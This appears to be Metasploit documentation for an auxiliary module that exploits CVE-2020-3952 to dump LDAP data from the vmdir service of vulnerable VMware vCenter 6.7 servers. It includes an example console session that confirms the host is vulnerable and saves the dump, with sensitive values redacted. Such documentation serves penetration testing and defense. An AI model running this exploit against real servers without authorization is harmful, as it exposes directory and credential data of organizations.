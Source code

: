 ## Vulnerable Application

### Description

This module uses an anonymous-bind LDAP connection to dump data from
the vmdir service in VMware vCenter Server version 6.7 prior to the
6.7U3f update, only if upgraded from a previous release line, such as
6.0 or 6.5.

### Setup

Tested in the wild. No setup notes available at this time, as setup will
be specific to target environment.

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Actions

### Dump

Dump all LDAP data from the vCenter Server.

## Options

### BASE_DN

If you already have the LDAP base DN, you may set it in this option.

### ConnectTimeout

You may configure the timeout for LDAP connects if necessary. The
default is 10.0 seconds and should be more than sufficient.

## Scenarios

### VMware vCenter Server 6.7 virtual appliance on ESXi

```
msf5 > use auxiliary/gather/vmware_vcenter_vmdir_ldap
msf5 auxiliary(gather/vmware_vcenter_vmdir_ldap) > options

Module options (auxiliary/gather/vmware_vcenter_vmdir_ldap):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   BASE_DN                   no        LDAP base DN if you already have it
   RHOSTS                    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT    389              yes       The target port


Auxiliary action:

   Name  Description
   ----  -----------
   Dump  Dump all LDAP data


msf5 auxiliary(gather/vmware_vcenter_vmdir_ldap) > set rhosts [redacted]
rhosts => [redacted]
msf5 auxiliary(gather/vmware_vcenter_vmdir_ldap) > run
[*] Running module against [redacted]

[*] Discovering base DN automatically
[*] Searching root DSE for base DN
dn: cn=DSE Root
namingcontexts: dc=vsphere,dc=local
supportedcontrol: 1.3.6.1.4.1.4203.1.9.1.1
supportedcontrol: 1.3.6.1.4.1.4203.1.9.1.2
supportedcontrol: 1.3.6.1.4.1.4203.1.9.1.3
supportedcontrol: 1.2.840.113556.1.4.417
supportedcontrol: 1.2.840.113556.1.4.319
supportedldapversion: 3
supportedsaslmechanisms: GSSAPI

[+] Discovered base DN: dc=vsphere,dc=local
[*] Dumping LDAP data from vmdir service at [redacted]:389
[+] [redacted]:389 is vulnerable to CVE-2020-3952
[*] Storing LDAP data in loot
[+] Saved LDAP data to /Users/wvu/.msf4/loot/20200417002613_default_[redacted]_VMwarevCenterS_939568.txt
[*] Password and lockout policy:
dn: cn=password and lockout policy,dc=vsphere,dc=local
cn: password and lockout policy
enabled: TRUE
ntsecuritydescriptor:: [redacted]
objectclass: top
objectclass: vmwLockoutPolicy
objectclass: vmwPasswordPolicy
objectclass: vmwPolicy
vmwpasswordchangeautounlockintervalsec: [redacted]
vmwpasswordchangefailedattemptintervalsec: [redacted]
vmwpasswordchangemaxfailedattempts: [redacted]
vmwpasswordlifetimedays: [redacted]
vmwpasswordmaxidenticaladjacentchars: [redacted]
vmwpasswordmaxlength: [redacted]
vmwpasswordminalphabeticcount: [redacted]
vmwpasswordminlength: [redacted]
vmwpasswordminlowercasecount: [redacted]
vmwpasswordminnumericcount: [redacted]
vmwpasswordminspecialcharcount: [redacted]
vmwpasswordminuppercasecount: [redacted]
vmwpasswordprohibitedpreviouscount: [redacted]

[*] Auxiliary module execution completed
msf5 auxiliary(gather/vmware_vcenter_vmdir_ldap) >
```
